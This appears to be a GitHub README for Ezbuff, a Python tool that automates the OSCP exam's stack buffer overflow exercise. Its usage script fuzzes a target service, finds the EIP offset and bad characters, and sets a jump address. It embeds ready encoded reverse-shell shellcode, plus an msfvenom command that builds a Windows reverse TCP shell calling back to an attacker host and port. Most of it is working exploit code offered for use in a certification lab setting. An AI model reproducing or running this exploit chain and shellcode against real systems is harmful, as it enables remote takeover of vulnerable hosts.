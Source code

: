 # Ezbuff
Ezbuff is a Python package created to make the **2020 PWK buffer overflow** easier to perform and understand. I created this package because I am aware of the number of people who lose a lot of time during their **OSCP** exams because of the buffer overflow box and thought this would assist the process. Ezbuff does not perform the buffer overflow for you, it simply automates a lot of the procedures that need to be executed to accomplish a successful buffer overflow attack. Therefore, the manual labor like determining the actual number of bytes to send to crash the vulnerable application, filtering bad characters from registers, and payload generation are all left to the user.

## Installation
```python
pip3 install ezbuff
```

## Usage
```python
#!/usr/bin/env python3

from ezbuff import Overflow

def main():
	# Instanstantiate `Overflow` object
	obj = Overflow("192.168.230.10", 80, max_fuzz_bytes=2000)

	# to obtain details on the object you instantiated
	print(obj)
	# for more details
	print(repr(obj))

	# Change the target IP if running in interactive Python interpreter
	obj.targ_ip = "127.0.0.1"

	# Change the target port number if running in interactive Python interpreter
	obj.targ_port = 443

	# The number of seconds to wait in between the fuzzing process,
	# default = 5
	obj.fuzz_interval_seconds = 1

	# Set the increment of the fuzzer to be 150 as opposed to
	# the default of 100
	obj.fuzz_increment = 150

	# Fuzz the vulnerable application
	obj.fuzz()

	# Sets the number of bytes to crash the application.
	# Make sure to accommodate space for reverse shell!!
	# [!] this should be set after running `fuzz` for the remainder of the process
	obj.num_bytes_crash = 1500

	# Sending pattern to determine offset
	obj.send_pattern()

	# Get offset 
	offset = obj.get_offset("30416B30")
	print(offset)

	# Set offset value after retrieving from function above
	# [!] this should be set after running `get_offset` for the remainder of the process
	obj.offset = 780

	# Testing offset (obj.offset must be set from)
	# obj.test("offset")

	# Add bad characters to list containing bad characters found
	# after sending string of characters
	# [!] after sending a string of characters and finding a bad character
	# 	  append the character as an argument to the function `add_bad_char`
	#	  as shown below
	obj.add_bad_char("\x0a", "\x0d", "\x25", "\x26", "\x2b", "\x3d")

	# Send payload with all characters to find bad characters
	obj.send_bad_chars()

	# Set the memory address to jump to after finding valid memory address
	# containing `jump` instructions set in x86 architecture
	# [!] the `jump_eip` must be bytes as shown below
	obj.jump_eip = b"\x83\x0c\x09\x10"
	obj.test("eip")

	# reverse shell payload
	# [!] must be in bytes
	shellcode = (
b"\xbe\x88\xe8\x2f\x51\xdb\xc0\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
b"\x52\x83\xc2\x04\x31\x72\x0e\x03\xfa\xe6\xcd\xa4\x06\x1e\x93"
b"\x47\xf6\xdf\xf4\xce\x13\xee\x34\xb4\x50\x41\x85\xbe\x34\x6e"
b"\x6e\x92\xac\xe5\x02\x3b\xc3\x4e\xa8\x1d\xea\x4f\x81\x5e\x6d"
b"\xcc\xd8\xb2\x4d\xed\x12\xc7\x8c\x2a\x4e\x2a\xdc\xe3\x04\x99"
b"\xf0\x80\x51\x22\x7b\xda\x74\x22\x98\xab\x77\x03\x0f\xa7\x21"
b"\x83\xae\x64\x5a\x8a\xa8\x69\x67\x44\x43\x59\x13\x57\x85\x93"
b"\xdc\xf4\xe8\x1b\x2f\x04\x2d\x9b\xd0\x73\x47\xdf\x6d\x84\x9c"
b"\x9d\xa9\x01\x06\x05\x39\xb1\xe2\xb7\xee\x24\x61\xbb\x5b\x22"
b"\x2d\xd8\x5a\xe7\x46\xe4\xd7\x06\x88\x6c\xa3\x2c\x0c\x34\x77"
b"\x4c\x15\x90\xd6\x71\x45\x7b\x86\xd7\x0e\x96\xd3\x65\x4d\xff"
b"\x10\x44\x6d\xff\x3e\xdf\x1e\xcd\xe1\x4b\x88\x7d\x69\x52\x4f"
b"\x81\x40\x22\xdf\x7c\x6b\x53\xf6\xba\x3f\x03\x60\x6a\x40\xc8"
b"\x70\x93\x95\x5f\x20\x3b\x46\x20\x90\xfb\x36\xc8\xfa\xf3\x69"
b"\xe8\x05\xde\x01\x83\xfc\x89\xed\xfc\x89\xaf\x86\xfe\x75\x20"
b"\x7e\x76\x93\x2a\x90\xde\x0c\xc3\x09\x7b\xc6\x72\xd5\x51\xa3"
b"\xb5\x5d\x56\x54\x7b\x96\x13\x46\xec\x56\x6e\x34\xbb\x69\x44"
b"\x50\x27\xfb\x03\xa0\x2e\xe0\x9b\xf7\x67\xd6\xd5\x9d\x95\x41"
b"\x4c\x83\x67\x17\xb7\x07\xbc\xe4\x36\x86\x31\x50\x1d\x98\x8f"
b"\x59\x19\xcc\x5f\x0c\xf7\xba\x19\xe6\xb9\x14\xf0\x55\x10\xf0"
b"\x85\x95\xa3\x86\x89\xf3\x55\x66\x3b\xaa\x23\x99\xf4\x3a\xa4"
b"\xe2\xe8\xda\x4b\x39\xa9\xeb\x01\x63\x98\x63\xcc\xf6\x98\xe9"
b"\xef\x2d\xde\x17\x6c\xc7\x9f\xe3\x6c\xa2\x9a\xa8\x2a\x5f\xd7"
b"\xa1\xde\x5f\x44\xc1\xca")
	# `get_payload` takes a parameter which is the name of the reverse shell file you created with msfvenom
	# Don't forget to specify a format in c programming language
	# obj.send_payload(shellcode)

if __name__ == '__main__':
	main()
	
# Sample payload with Msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=1337 EXITFUNC=
# thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"

# Or use Vengen (https://github.com/binexisHATT/Vengen) to generate payloads with your custom options! 
```
